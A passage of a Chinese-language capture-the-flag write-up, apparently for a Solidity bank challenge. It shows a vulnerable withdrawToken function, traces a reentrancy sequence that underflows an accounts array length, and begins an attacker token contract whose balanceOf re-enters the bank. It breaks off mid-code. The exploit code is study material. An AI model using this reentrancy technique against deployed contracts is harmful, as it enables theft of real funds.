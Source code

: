 ```solidity
    function withdrawToken(uint accountId, address token, uint amount) external {
    	.....
        account.balances[token] -= amount;

        if (account.balances[token] == 0) {
            account.uniqueTokens--;

            if (account.uniqueTokens == 0 && accountId == lastAccount) {
                accounts[msg.sender].length--;
            }
        }

        uint beforeBalance = ERC20Like(token).balanceOf(msg.sender);
        require(ERC20Like(token).transfer(msg.sender, amount), "withdrawToken/transfer-failed");
        uint afterBalance = ERC20Like(token).balanceOf(msg.sender);
        require(afterBalance - beforeBalance == amount, "withdrawToken/fee-token");
    }
```

#### 3.2利用漏洞

**1.重入取款函数使得下溢**

可以在三个函数`balanceOf()`, `transferFrom()`, `transfer()`可以作为重入，需要选择在合适的方法合适的位置进行重入才能使得数组长度下溢，这是因为取款函数使数组长度减少是有条件的`account.uniqueTokens == 0 && accountId == lastAccount`。经过数次尝试，下面的重入逻辑是可行的：左边的数字是重入方法执行的次序，[]中的内容是程序执行过程中全局变量的状态

```
															[len=0, uniqueTokens=0]
1.depositToken(0, address(this), 0): 
															[len=1, uniqueTokens=1]
	2.withdrawToken(0, address(this), 0) len=1, uniqueTokens=1
															[len=1, uniqueTokens=1]	
		3.depositToken(0, address(this), 0)  len=1, uniqueTokens=1
															[len=1, uniqueTokens=1]	
			4.withdrawToken(0, address(this), 0) len=1, uniqueTokens=1
															[len=0, uniqueTokens=0]	
		3.depositToken(0, address(this), 0)  len=0, uniqueTokens=1
															[len=0, uniqueTokens=1]	
	2.withdrawToken(0, address(this), 0) len=-1, uniqueTokens=0
															[len=-1, uniqueTokens=0]	
1.depositToken(0, address(this), 0): len=-1, uniqueTokens=0
															[len=-1, uniqueTokens=0]	
```

配套的方法如下：

```solidity
	function balanceOf(address) public returns(uint256){
       if(count01 == 0){
            count01++;
            return 0;
       }else if(count01 == 1){
            count01++;
            bank.withdrawToken(0, address(this), 0);
            return 0;
       }else if(count01 == 2){
            count01++;
            bank.depositToken(0, address(this), 0);
            return 0;
       }else if(count01 == 3){
            count01++;
            bank.withdrawToken(0, address(this), 0);
            return 0;
       }else{
            return 0;
```